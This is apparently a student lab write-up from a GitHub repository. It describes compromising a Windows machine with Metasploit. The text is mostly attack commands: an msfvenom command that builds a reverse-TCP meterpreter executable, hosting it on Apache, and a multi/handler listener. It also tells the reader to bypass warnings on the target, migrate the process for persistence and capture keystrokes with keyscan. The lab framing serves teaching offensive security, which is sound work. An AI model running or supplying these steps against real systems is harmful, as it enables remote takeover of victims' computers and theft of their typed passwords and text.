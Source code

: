 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:
Find the attackers ip address using ifconfig.
## OUTPUT:
![image](https://github.com/LOKESHKUMARPANCHATCHARAM/Compromising-windows-using-Metasploit/assets/119644432/abe56c32-c71a-4b0c-8dde-23174d14e1d7)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe.
## OUTPUT:
![image](https://github.com/LOKESHKUMARPANCHATCHARAM/Compromising-windows-using-Metasploit/assets/119644432/26395541-0d18-42da-a096-9129282278ca)
copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/LOKESHKUMARPANCHATCHARAM/Compromising-windows-using-Metasploit/assets/119644432/555a7868-a083-4afe-bac3-80ed9d4d4cb1)
Start apache server sudo systemctl apache2 start
![image](https://github.com/LOKESHKUMARPANCHATCHARAM/Compromising-windows-using-Metasploit/assets/119644432/b573b48d-9c93-4b9f-a34f-65c7786060a7)
Check the status of apache2
![image](https://github.com/LOKESHKUMARPANCHATCHARAM/Compromising-windows-using-Metasploit/assets/119644432/90480c26-2ed1-44de-a9df-91c93c06aaa7)

Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![image](https://github.com/LOKESHKUMARPANCHATCHARAM/Compromising-windows-using-Metasploit/assets/119644432/4b63689a-1409-41fb-9d13-6bb2ac744c34)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/LOKESHKUMARPANCHATCHARAM/Compromising-windows-using-Metasploit/assets/119644432/5290fc3d-76aa-424b-b417-52c610b998fa)
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/LOKESHKUMARPANCHATCHARAM/Compromising-windows-using-Metasploit/assets/119644432/4f09158c-a7c7-4b49-9fed-f84199620f29)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted.
![image](https://github.com/LOKESHKUMARPANCHATCHARAM/Compromising-windows-using-Metasploit/assets/119644432/a0ccc7c1-01be-4572-b1cb-bfe5dbf4fad1)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/LOKESHKUMARPANCHATCHARAM/Compromising-windows-using-Metasploit/assets/119644432/7d686d95-b0b3-43fa-987b-db3b31d63246)
keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/LOKESHKUMARPANCHATCHARAM/Compromising-windows-using-Metasploit/assets/119644432/ad721e5e-79e4-4464-b3f7-74c3269207ef)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
